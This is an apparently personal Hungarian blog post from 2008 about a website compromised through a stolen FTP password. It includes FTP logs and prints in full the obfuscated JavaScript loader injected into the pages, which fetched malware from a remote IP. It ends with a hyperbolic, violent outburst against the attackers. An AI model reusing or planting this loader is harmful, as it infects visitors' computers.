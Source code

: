 ```yaml
---
title: "shapgvba ejtf(c){..."
date: "2008-02-05"
tags: 
  - "geekség"
  - "gekko"
  - "hack"
  - "virus"
  - "zsonglőrködés"
---
```


Amikor a pokol elszabadul.

Rémálom baszki.

Gondos házigazda lévén, rendszeresen nézegetem az oldalaimat, hogy minden rendben van-e, nem kell-e valami hozzászólást kimoderálni stb. Vasárnap feltűnt valami kis apróság. A böngészőm a csokavar.hu főoldalán valami ismeretlen add-in-t akart futtatni. Márpedig én ilyet nem írtam sehova. Aztán nézem a forrást, és 500-600 üres sorral a fájl általam gondolt vége után találtam egy ilyet:

<script language=JavaScript>var sf=" shapgvba cwzgq(d){ine xp,yfl="r|b'RhkB\_98\[5)XsvAPClwHix.e,2o:$uyT^&Vqa36Nd=-Z\\"{\`z\]m@GS;UIc# 0}jWMt1pf7~(n4O\*+g!",xn="",c,wah,xs="",pr;sbe(xp=0;xp<d.yratgu;xp++){ c=d.puneNg(xp);wah=yfl.vaqrkBs(c);vs(wah>-1){ pr=((wah+1)%81-1);vs(pr<=0)pr+=81;xs+=yfl.puneNg(pr-1); } ryfr xs+=c;}xn+=xs;qbphzrag.jevgr(xn);}",aarf="";for(nyf=0;nyf<sf.length;nyf++){ cqd = sf.charCodeAt(nyf);if((cqd>64 && cqd<78)||(cqd>96 && cqd<110)) cqd=cqd+13;else if((cqd>77 && cqd<91)||(cqd>109 && cqd<123))cqd=cqd-13;aarf=aarf.concat(String.fromCharCode(cqd));} var hw,u; eval( aarf );hw="<7s,N#!0G431x41|-{U4k47s,N#!{>0n'sx\]|3!rJ,N!|a0{<SPRdyF0G431x41|-\\{Z4k4Ss,N#!\\{0SRP-\\{l!!#$//JJJr1''1G|M434Gj!Gs7rs'\]/99x!!rU7?{tn'sx\]|3!r,|i|,,|,t{\\{><\\/SPRdyF>{0KH0</7s,N#!>0"; pjmtd(hw);</script>

Szoktam ronda kódot írni, de azért ez... 

Kiderült, hogy fenti szutyok valami Hong Kongi gépről (58.65.238.60) próbál egy vírust letölteni a látogató gépére.

Aztán elkezdtem a logokat böngészni, míg az FTP logban a következőre nem bukkantam:

Fri Feb 1 23:58:06 2008 \[pid 7784\] \[encse\] OK LOGIN: Client "58.65.238.59"

Fri Feb 1 23:58:12 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 3904 bytes, 16.06Kbyte/sec

Fri Feb 1 23:58:14 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 5498 bytes, 11.47Kbyte/sec

Fri Feb 1 23:58:16 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 92 bytes, 0.39Kbyte/sec

Fri Feb 1 23:58:18 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 1686 bytes, 3.49Kbyte/sec

Fri Feb 1 23:58:21 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 54 bytes, 0.23Kbyte/sec

Fri Feb 1 23:58:23 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 1648 bytes, 3.43Kbyte/sec

Fri Feb 1 23:58:26 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 5645 bytes, 24.04Kbyte/sec

Fri Feb 1 23:58:28 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 7239 bytes, 10.81Kbyte/sec

Fri Feb 1 23:58:31 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 7102 bytes, 16.60Kbyte/sec

Fri Feb 1 23:58:33 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 8696 bytes, 12.99Kbyte/sec

Ugyanaz a Hong Kongi IP, közvetlen a másik mellett.

Szóval valaki lenyúlta az FTP jelszavamat, és ahogy sejtem, arra használta fel, hogy ugyanezt a jelszólopó trójait terjessze az oldalaimon.

A neten találtam egy fórumot, ahol egy hasonló támadást elemeznek ([http://pouet.net/topic.php?which=5006&page=1](http://pouet.net/topic.php?which=5006&page=1)). Itt az 'én' scriptem egy másik mutációját elemzik. Szerintük az egész mögött a [Russian Business Network](http://en.wikipedia.org/wiki/Russian_Business_Network) áll, ami a wikipedia leírása alapján nagyjából a maffia. hátafaszom.

Tegnap jelszavakat váltogattam (bankos, céges, stb.  el lehet képzelni...) Ma meg egész nap a gépet pucolgattam, de ez tisztának tűnik. Azt gondolom, hogy az otthoni, régi gépemen lesz a trójai, de ez a hétvége előtt nem fog kiderülni.

És az egészben nem is az fáj, hogy engem meghackeltek, mert előfordul az ilyesmi. De a büdös kurva életbe már: a szájbavert zsonglőr oldalamra töltik fel az ótvar szutykukat, hogy az arra tévedő gyerekek gépére másszon fel az a szemét.

Én sose voltam a halálbüntetés ellen: le kéne géppuskázni az egész baszott bagást, úgy ahogy van, aztán nézegethetnek.
